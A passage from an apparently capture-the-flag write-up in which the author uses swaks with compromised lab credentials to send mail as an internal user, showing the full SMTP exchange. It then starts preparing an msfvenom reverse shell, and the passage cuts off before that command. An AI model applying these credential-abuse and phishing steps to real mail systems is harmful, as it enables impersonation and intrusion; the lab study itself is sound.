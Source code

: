 ## Testing Email Sending via Swaks


To verify that I could interact with the SMTP service as the compromised user, I used `swaks` (Swiss Army Knife SMTP tool) to send a test email:

```
┌──(kali㉿kali)-[~/Desktop/You got mail]
└─$ swaks --to oaurelius@brownbrick.co \
--from lhedvig@brownbrick.co \
--server 10.10.217.207 \
--port 587 \
--auth LOGIN \
--auth-user lhedvig@brownbrick.co \
--auth-password bricks \
--data "Test mail"
=== Trying 10.10.217.207:587...
=== Connected to 10.10.217.207.
<-  220 BRICK-MAIL ESMTP
 -> EHLO kali
<-  250-BRICK-MAIL
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> AUTH LOGIN
<-  334 VXNlcm5hbWU6
 -> bGhlZHZpZ0Bicm93bmJyaWNrLmNv
<-  334 UGFzc3dvcmQ6
 -> YnJpY2tz
<-  235 authenticated.
 -> MAIL FROM:<lhedvig@brownbrick.co>
<-  250 OK
 -> RCPT TO:<oaurelius@brownbrick.co>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Test mail
 -> 
 -> 
 -> .
<-  250 Queued (0.062 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```
The connection succeeded, confirming my ability to send emails from the compromised account.

## Preparing a Reverse Shell Paylod with msfvenom

To escalate from the mail server to remote code execution, I generated a Windows 64-bit reverse TCP shell executable using `msfvenom`:
